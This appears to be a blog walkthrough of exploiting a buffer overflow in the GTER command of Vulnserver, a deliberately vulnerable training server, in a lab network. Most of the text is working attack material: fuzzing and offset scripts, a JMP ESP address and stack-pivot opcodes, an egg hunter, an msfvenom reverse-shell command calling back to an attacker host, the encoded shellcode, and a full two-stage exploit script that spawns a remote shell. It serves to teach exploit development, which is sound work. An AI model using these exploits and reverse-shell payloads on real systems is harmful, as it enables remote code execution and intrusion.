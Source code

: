 ```yaml
---
title: "Vulnserver GTER - Staged exploitation and Egg hunting"
classes: wide
tag: 
  - "windows exploitation"
  - "vulnserver"
header:
  teaser: /assets/images/win-exp/windows-exp.png
ribbon: blue
description: "A simple walkthrough on  Vulnserver GTER using egg hunter and staged exploitation technique"
categories: ['Exploit-Development','Windows-Exploitation','Vulnserver']
---
```


- [Vulnserver GTER - Stack pivoting & Egg hunting](#vulnserver-gter---stack-pivoting--egg-hunting)
  - [Prologue](#prologue)
  - [Spiking the Vulnserver](#spiking-the-vulnserver)
  - [Analysing the source code](#analysing-the-source-code)
  - [Fuzzing the server](#fuzzing-the-server)
  - [Finding offset](#finding-offset)
  - [Overwriting Instruction Pointer](#overwriting-instruction-pointer)
  - [Finding bad characters](#finding-bad-characters)
  - [Redirecting code execution](#redirecting-code-execution)
  - [Stack pivoting](#stack-pivoting)
  - [Crafting egg hunter](#crafting-egg-hunter)
  - [Crafting shellcode](#crafting-shellcode)
  - [Staging shellcode](#staging-shellcode)
  - [Exploitation](#exploitation)

## Prologue

In this blog post, will discuss about ```GTER``` command from Vulnserver, where we will be exploiting it by using ```stack pivoting``` and ```egg hunting``` 

## Spiking the Vulnserver

Creating a ```spike script``` for spiking using ```generic_send_tcp```,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat gter.spk 
s_readline();
s_string("GTER ");
s_string_variable("0");
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ generic_send_tcp 192.168.116.140 9999 gter.spk 0 0 
Total Number of Strings is 681
Fuzzing
Fuzzing Variable 0:0
line read=Welcome to Vulnerable Server! Enter HELP for help.
Fuzzing Variable 0:1
Variablesize= 5004
Fuzzing Variable 0:2
Variablesize= 5005

...

```

While spiking GTER command, we could see that we could not connect to the Vulnserver anymore

Yes.. It got crashed!!

We could see that our Vulnserver application has been terminated by ```Access Violation error```

From this we can confirm that, ```GTER``` command is vulnerable to Buffer Overflow attack

## Analysing the source code

The source code for this command is,

```c
 else if (strncmp(RecvBuf, "GTER ", 5) == 0) {
				char *GterBuf = malloc(180);
				memset(GdogBuf, 0, 1024);
				strncpy(GterBuf, RecvBuf, 180);				
				memset(RecvBuf, 0, DEFAULT_BUFLEN);
				Function1(GterBuf);
				SendResult = send( Client, "GTER ON TRACK\n", 14, 0 );
			}
```

It copies only ```180 bytes``` of our data into ```GterBuf``` by using ```strncpy()```

```strncpy()``` is not vulnerable, but we have only ```small buffer space``` which becomes a constraint for us

After storing these, it invokes the vulnerable function ```Function1(GterBuf)```

The souce code of this vulnerable function is,

```c
void Function1(char *Input) {
	char Buffer2S[140];
	strcpy(Buffer2S, Input);
}
```

Here the main overflow attack is caused by ```strcpy``` function, where ```Buffer2S``` is only limited for 140 bytes but the incoming buffer has more data (180 bytes) than that causing it to overflow the Buffer2S buffer while copying

This command does not expects any special character used for validation

## Fuzzing the server

We have successfully crashed our server and the payload data begins with ```GTER ``` which is made up of ```5 bytes```

Lets create a python script which generates payload data and fuzzes the payload length to crash the server

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat fuzzing.py
import socket, sys
from time import sleep
payload=b"A"*100
while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.116.140", 9999))
        s.send((b"GTER "+payload))
        sleep(5)
        payload=payload+b"A"*100
    except:
        print("Fuzzing crashed at %s bytes"%(len(payload)))
        sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 fuzzing.py
Fuzzing crashed at 300 bytes
```

The Vulnserver application should be ran without debugger, to avoid socket connection errors while fuzzing

So, from fuzzing we can estimate that our Vulnserver application is crashing at ```300 bytes``` of buffer data

Still, we are not sure about the approximate buffer space data need to create an overflow

## Finding offset

Creating pattern using ```metasploit```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_create -l 300 
<GENERATED PATTERN>
```

Fuzzing with the pattern to crash the program,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat offset.py       
import socket, sys
pattern=b"<GENERATED PATTERN>"
payload=b""
# fuzzing for EIP offset
payload+=pattern
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER ./"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 offset.py       
```

This will crash the program, where our buffer will get overflowed and fills the Base Pointer and Instruction Pointer with the data from the pattern

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-offset-reg.png" style="width:40%">
</div>

Here we can see ```EIP``` has a data from the pattern we created, we can also use metasploit to find the offset

Lets find the offset using mona by ```!mona findmsp```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-offset-findmsp.png">
</div>

We can see that our ```EIP``` is at the offset of ```151 bytes``` in the pattern

So we should use 5 bytes of ```GTER ``` and 151 bytes of ```A's``` to reach ```EIP```

## Overwriting Instruction Pointer

Now, we have found the offset of our EIP

It’s time to control the EIP, which is the important phase of every exploitation

Lets craft a script to overwrite the EIP with our own custom data, which will be further used to craft an exploit,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat overwrite-eip.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*151
# to overwrite EIP
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 overwrite-eip.py 
```

We have successfully overwrote the ```EIP``` with our own data ```0x44444444```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-overwrite-offset.png" style="width:40%">
</div>

So we could control EIP and redirect the code execution to the next point

## Finding bad characters

Lets pass bad characters on our ```ESP``` memory to see our data dump on that region

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat badchars.py     
import socket, sys
# collection of badchars except \x00
badchars=(b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*151
# to overwrite EIP
payload+=b"B"*4
# fuzzing badchars on ESP
payload+=badchars
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 badchars.py      
```

It seems like, we don't have enough space to store all bad characters in ESP

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-badchars-offset.png">
</div>

We could pass limited set of bad characters again and again in sequence to test it

Or we could store that ```before EIP (EAX - Buffer data)``` and test it

Anyways, by testing in this method we could confirm there are no bad characters except ```null byte```

## Redirecting code execution

As for now, we can control the ```EIP``` and also we have only one ```bad character x00```,

Since we can control ```EIP```, we can use this as our advantage and redirect the code flow to any part of the memory where it is perfect to have shellcode execution along with our egg hunter

Lets find the perfect module for ```JMP ESP``` to get perfect redirection using ```!mona modules```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-mona-modules.png">
</div>

On these, we can clearly see that only ```two modules``` have every security mitigations turned off

From these two, it is always best to try our exploit from an DLL of the own application and not from the actual exe itself

Lets find the ```jmp esp``` opcode from the memory of ```essfunc.dll```

To find the opcode using mona, we need the hex value of the opcode which can be done by ```nasm shell```

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ locate nasm_shell
/usr/bin/msf-nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
                                                                       
┌──(kali㉿aidenpearce369)-[~]
└─$ /usr/bin/msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > exit
```

Finding this offset using mona by the command ```!mona find -s \xff\xe4 -m essfunc.dll```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-mona-jmpesp.png">
</div>

We could see there are 9 pointers available for this exploit which has ```jmp esp``` opcode in it and it also doesn’t change its memory address

Eventhough ```ASLR``` is enabled for other parts, here it is disabled which makes the address to remain static & suitable for exploitation

```NX bit``` is also disabled, which allows us to execute shellcode on stack memory

Also, while checking the pointer addresses make sure that the address do not contain bad characters in it, which may cause poor exploitation

Lets craft the script and enter the address of the opcode in ```little endian``` format because the data in stack is placed in little endian format

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat jmp-esp.py    
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*151
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# padding
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 jmp-esp.py
```

After crashing, we can see that we landed perfectly on ESP memory

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-jmpesp-reg.png" style="width:40%">
</div>

So, we have successfully redirected our program flow

Next we have to point it with our shellcode

But the main constraint here is our buffer size, it is so small to fit our shellcode in it

What we can do is, place an ```egg hunter / opcodes for re-using socket``` to get the ```second stage shellcode``` to exploit the program

In this blog we will try to exploit this by using ```egg hunter```

## Stack pivoting

Since we are going to use ```egg hunter``` for this exploit, we need to store it somewhere

ESP has small size, so we need to place it in our buffer data and use ```short jump/ long jump``` to get back there

Lets try to land on 10th byte of buffer data which has ```5 bytes``` of ```GTER ``` first and extra 5 bytes of junk after it (Use NOPs for better working exploit) 

Our buffer data is being stored in ```EAX```, you can verify it using registers

Lets create the opcode value to drift back to EAX register using nasm-shell,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ /usr/bin/msf-nasm_shell
nasm > add eax,0x10
00000000  83C010            add eax,byte +0x10
nasm > jmp eax
00000000  FFE0              jmp eax
```

Adding this opcode in our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat stack-pivot.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*151
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# stack pivot
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 stack-pivot.py 
```

After crashing the server, we can see this after executing ```JMP ESP```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-shortjump-opcode.png">
</div>

Here we can see the opcode for the ```long jump to EAX register``` that we have crafted

After proceeding with step intos from ```JMP ESP```, we will hit the jump instruction and will be redirected here

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-shortjump-jump.png">
</div>

We have landed successfully past 10 bytes in the buffer data memory which we have sent

## Crafting egg hunter

We have used ```jmp eax``` to reach the buffer data memory, which is the perfect place to store our ```egg hunter```

Lets craft an egg hunter using ```!mona egg -t PWND -wow64 -winver 10```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-mona-egg.png">
</div>

Now we have crafted our egg hunter of ```50 bytes```, lets place it in our python script and lets test it whether we are able to reach it after ```jmp eax```

Lets add ```NOPS sled``` before egg hunter to reach it effectively

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat egg-hunter.py 
import socket, sys
egg_hunter=b""
egg_hunter+=b"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
egg_hunter+=b"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
egg_hunter+=b"\x05\x74\xdf\xb8\x50\x57\x4e\x44\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
egg_hunter+=b"\xff\xe7"
payload=b""
# to overwrite buffer and EBP
# NOP sled
payload+=b"\x90"*40 
# egg hunter
payload+=egg_hunter
payload+=b"C"*(151-len(payload))
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# stack pivot
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 egg-hunter.py
```

After analysing it with break points, we can see that we are ahead of our egg hunter with NOPS sled which will execute perfectly

## Crafting shellcode

Lets generate the shellcode for our reverse shell using ```msfvenom```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.116.128 LPORT=9876 -f python -e x86/shikata_ga_nai -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xd9\xc6\xd9\x74\x24\xf4\xbe\x4b\x0e\xc3\xd4\x58\x33"
buf += b"\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\x3b\x1d\x21"
buf += b"\x21\x47\xc9\x27\xca\xb7\x0a\x48\x42\x52\x3b\x48\x30"
buf += b"\x17\x6c\x78\x32\x75\x81\xf3\x16\x6d\x12\x71\xbf\x82"
buf += b"\x93\x3c\x99\xad\x24\x6c\xd9\xac\xa6\x6f\x0e\x0e\x96"
buf += b"\xbf\x43\x4f\xdf\xa2\xae\x1d\x88\xa9\x1d\xb1\xbd\xe4"
buf += b"\x9d\x3a\x8d\xe9\xa5\xdf\x46\x0b\x87\x4e\xdc\x52\x07"
buf += b"\x71\x31\xef\x0e\x69\x56\xca\xd9\x02\xac\xa0\xdb\xc2"
buf += b"\xfc\x49\x77\x2b\x31\xb8\x89\x6c\xf6\x23\xfc\x84\x04"
buf += b"\xd9\x07\x53\x76\x05\x8d\x47\xd0\xce\x35\xa3\xe0\x03"
buf += b"\xa3\x20\xee\xe8\xa7\x6e\xf3\xef\x64\x05\x0f\x7b\x8b"
buf += b"\xc9\x99\x3f\xa8\xcd\xc2\xe4\xd1\x54\xaf\x4b\xed\x86"
buf += b"\x10\x33\x4b\xcd\xbd\x20\xe6\x8c\xa9\x85\xcb\x2e\x2a"
buf += b"\x82\x5c\x5d\x18\x0d\xf7\xc9\x10\xc6\xd1\x0e\x56\xfd"
buf += b"\xa6\x80\xa9\xfe\xd6\x89\x6d\xaa\x86\xa1\x44\xd3\x4c"
buf += b"\x31\x68\x06\xc2\x61\xc6\xf9\xa3\xd1\xa6\xa9\x4b\x3b"
buf += b"\x29\x95\x6c\x44\xe3\xbe\x07\xbf\x64\x01\x7f\xcb\xf4"
buf += b"\xe9\x82\x33\xd3\x7d\x0b\xd5\x71\x6e\x5a\x4e\xee\x17"
buf += b"\xc7\x04\x8f\xd8\xdd\x61\x8f\x53\xd2\x96\x5e\x94\x9f"
buf += b"\x84\x37\x54\xea\xf6\x9e\x6b\xc0\x9e\x7d\xf9\x8f\x5e"
buf += b"\x0b\xe2\x07\x09\x5c\xd4\x51\xdf\x70\x4f\xc8\xfd\x88"
buf += b"\x09\x33\x45\x57\xea\xba\x44\x1a\x56\x99\x56\xe2\x57"
buf += b"\xa5\x02\xba\x01\x73\xfc\x7c\xf8\x35\x56\xd7\x57\x9c"
buf += b"\x3e\xae\x9b\x1f\x38\xaf\xf1\xe9\xa4\x1e\xac\xaf\xdb"
buf += b"\xaf\x38\x38\xa4\xcd\xd8\xc7\x7f\x56\xe8\x8d\xdd\xff"
buf += b"\x61\x48\xb4\xbd\xef\x6b\x63\x81\x09\xe8\x81\x7a\xee"
buf += b"\xf0\xe0\x7f\xaa\xb6\x19\xf2\xa3\x52\x1d\xa1\xc4\x76"
```

We have crafted our shellcode which is made up of ```351 bytes``` and it is almost impossible to send our payload in buffer data or in ESP

So lets use a ```staging exploitation technique``` to send this payload

## Staging shellcode

Since we are using ```egg hunters``` to find the shellcode, it is mandatory that the shellcode should be found within the ```Virtual Address Space``` of the process

We can execute our shellcode in the VAS of the same process by,

- ```FIRST STAGE``` - Sending the shellcode with other commands which utilizes large buffer space to store the shellcode
- The shellcode sent will be saved in the memory
- ```SECOND STAGE``` - Sending our egg hunter after that, using our buffer data in which we have control to hunt the shellcode
- The egg hunter analyses the EGG in VAS memory and makes the shellcode to get executed

By seeing the source code, ```TRUN``` command  will be suitable for storing the first staged payload

```c
else if (strncmp(RecvBuf, "TRUN ", 5) == 0) {
				char *TrunBuf = malloc(3000);
				memset(TrunBuf, 0, 3000);
				for (i = 5; i < RecvBufLen; i++) {
					if ((char)RecvBuf[i] == '.') {
						strncpy(TrunBuf, RecvBuf, 3000);				
						Function3(TrunBuf);
						break;
					}
				}
				memset(TrunBuf, 0, 3000);				
				SendResult = send( Client, "TRUN COMPLETE\n", 14, 0 );
			}
```

When we pass our payload inside this, we can use our egg hunter to hunt for the shellcode because it will be in the same VAS

## Exploitation

The exploit script for this buffer overflow via ```GTER``` command is,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat exploit.py    
import socket, sys
from time import sleep

egg=b"PWNDPWND"

egg_hunter=b""
egg_hunter+=b"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
egg_hunter+=b"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
egg_hunter+=b"\x05\x74\xdf\xb8\x50\x57\x4e\x44\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
egg_hunter+=b"\xff\xe7"

buf =  b""
buf += b"\xd9\xc6\xd9\x74\x24\xf4\xbe\x4b\x0e\xc3\xd4\x58\x33"
buf += b"\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\x3b\x1d\x21"
buf += b"\x21\x47\xc9\x27\xca\xb7\x0a\x48\x42\x52\x3b\x48\x30"
buf += b"\x17\x6c\x78\x32\x75\x81\xf3\x16\x6d\x12\x71\xbf\x82"
buf += b"\x93\x3c\x99\xad\x24\x6c\xd9\xac\xa6\x6f\x0e\x0e\x96"
buf += b"\xbf\x43\x4f\xdf\xa2\xae\x1d\x88\xa9\x1d\xb1\xbd\xe4"
buf += b"\x9d\x3a\x8d\xe9\xa5\xdf\x46\x0b\x87\x4e\xdc\x52\x07"
buf += b"\x71\x31\xef\x0e\x69\x56\xca\xd9\x02\xac\xa0\xdb\xc2"
buf += b"\xfc\x49\x77\x2b\x31\xb8\x89\x6c\xf6\x23\xfc\x84\x04"
buf += b"\xd9\x07\x53\x76\x05\x8d\x47\xd0\xce\x35\xa3\xe0\x03"
buf += b"\xa3\x20\xee\xe8\xa7\x6e\xf3\xef\x64\x05\x0f\x7b\x8b"
buf += b"\xc9\x99\x3f\xa8\xcd\xc2\xe4\xd1\x54\xaf\x4b\xed\x86"
buf += b"\x10\x33\x4b\xcd\xbd\x20\xe6\x8c\xa9\x85\xcb\x2e\x2a"
buf += b"\x82\x5c\x5d\x18\x0d\xf7\xc9\x10\xc6\xd1\x0e\x56\xfd"
buf += b"\xa6\x80\xa9\xfe\xd6\x89\x6d\xaa\x86\xa1\x44\xd3\x4c"
buf += b"\x31\x68\x06\xc2\x61\xc6\xf9\xa3\xd1\xa6\xa9\x4b\x3b"
buf += b"\x29\x95\x6c\x44\xe3\xbe\x07\xbf\x64\x01\x7f\xcb\xf4"
buf += b"\xe9\x82\x33\xd3\x7d\x0b\xd5\x71\x6e\x5a\x4e\xee\x17"
buf += b"\xc7\x04\x8f\xd8\xdd\x61\x8f\x53\xd2\x96\x5e\x94\x9f"
buf += b"\x84\x37\x54\xea\xf6\x9e\x6b\xc0\x9e\x7d\xf9\x8f\x5e"
buf += b"\x0b\xe2\x07\x09\x5c\xd4\x51\xdf\x70\x4f\xc8\xfd\x88"
buf += b"\x09\x33\x45\x57\xea\xba\x44\x1a\x56\x99\x56\xe2\x57"
buf += b"\xa5\x02\xba\x01\x73\xfc\x7c\xf8\x35\x56\xd7\x57\x9c"
buf += b"\x3e\xae\x9b\x1f\x38\xaf\xf1\xe9\xa4\x1e\xac\xaf\xdb"
buf += b"\xaf\x38\x38\xa4\xcd\xd8\xc7\x7f\x56\xe8\x8d\xdd\xff"
buf += b"\x61\x48\xb4\xbd\xef\x6b\x63\x81\x09\xe8\x81\x7a\xee"
buf += b"\xf0\xe0\x7f\xaa\xb6\x19\xf2\xa3\x52\x1d\xa1\xc4\x76"

stage1_payload=b""
stage1_payload+=egg
stage1_payload+=buf

stage2_payload=b""
stage2_payload+=b"\x90"*40
stage2_payload+=egg_hunter
stage2_payload+=b"C"*(151-len(stage2_payload))
stage2_payload+=b"\xaf\x11\x50\x62"
stage2_payload+=b"\x90"
stage2_payload+=b"\x83\xc0\x10"
stage2_payload+=b"\xff\xe0"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"TRUN /.:/"+stage1_payload))
print("[+] Stage 1 payload sent")
s.close()

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+stage2_payload))
print("[+] Stage 2 payload sent")
s.close()

print("[+] Exploit complete.. Shell spawned")
```

By running this exploit, we would successfully spawn a reverse shell by executing our shellcode

<video width="100%" preload="auto" muted controls>
    <source src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-1-exploit.mp4" type="video/mp4"/>
</video>


